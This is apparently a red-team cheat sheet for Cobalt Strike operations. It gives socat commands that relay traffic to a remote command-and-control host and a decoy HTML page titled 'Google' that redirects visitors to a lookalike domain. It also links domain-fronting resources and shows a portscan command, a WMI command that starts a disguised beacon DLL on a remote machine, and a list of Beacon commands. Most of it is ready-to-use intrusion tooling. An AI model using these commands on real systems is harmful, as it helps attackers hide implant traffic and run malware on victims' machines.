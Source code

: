```
    socat TCP-LISTEN:80,fork TCP:<remote host>:80
    socat TCP-LISTEN:443,fork TCP:<remote host>:443
```

UDP Port Redirection

```
    socat udp4-recvfrom:53,reuseaddr,fork udp4-sendto:<IPADDRESS>; echo -ne
```

Simple HTTP Redirect

Save as a file like the following as redirect.html and map to root "/" on your Team Server. Casual browsing to the root of your domain will then simply redirect.

```
    <html>
    <title>Google</title>
    <meta http-equiv="refresh" content="0;url=https://www.googlrrrr.com" />
    </html>
```

### Domain Fronting

- https://github.com/rvrsh3ll/FindFrontableDomains

### Cobalt Strike

http://blog.cobaltstrike.com/2016/07/06/gettin-down-with-aggressor-script/
https://github.com/killswitch-GUI/CobaltStrike-ToolKit/blob/master/DA-Watch.cna
https://github.com/Und3rf10w/Aggressor-scripts

```
    portscan 10.42.175.0/26 21,22,23,25,80,443,445,1433,3389,8080,8443
```

_Start Remote Beacon DLL via iwmi_

```
    powerpick iwmi -class Win32_Process -name create -ArgumentList "rundll32.exe c:\users\public\libraries\smb_beacon.dll.log0,StartW"
```

#### OPSEC Considerations for Beacon Commands

[Blog.Cobaltstrike.com - OPSEC Considerations For Beacon Commands](https://blog.cobaltstrike.com/2017/06/23/opsec-considerations-for-beacon-commands/#respond)

A good operator knows their tools and has an idea of how the tool is accomplishing its objectives on their behalf. This blog post surveys Beacons commands and provides background on which commands inject into remote processes, which commands spawn jobs, and which commands rely on cmd.exe or powershell.exe.

_API-only_
These commands are built-into Beacon and rely on Win32 APIs to meet their objectives.

```
    cd
    cp
    download
    drives
    exit
    getuid
    kerberos_ccache_use
    kerberos_ticket_purge
    kerberos_ticket_use
    jobkill
    kill
    link
    ls
    make_token
```